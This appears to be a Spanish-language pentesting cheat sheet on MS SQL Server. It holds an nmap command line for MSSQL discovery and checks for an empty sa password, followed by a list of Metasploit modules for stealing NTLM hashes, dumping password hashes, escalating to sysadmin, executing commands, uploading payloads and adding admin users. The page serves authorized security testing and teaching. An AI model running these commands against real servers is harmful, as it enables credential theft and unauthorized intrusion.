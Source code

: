 ### Recolección de Información

Si no sabe nada acerca del servicio puede utilizar:

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping
```

Si no tiene credenciales válidos puede tratar de adivinarlos o utilizar **nmap** o **metasploit**.

{% hint style="danger" %}
CUIDADO

Una cuenta puede bloquearse si se falla en el login unas cuantas veces.
{% endhint %}

#### Metasploit

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```
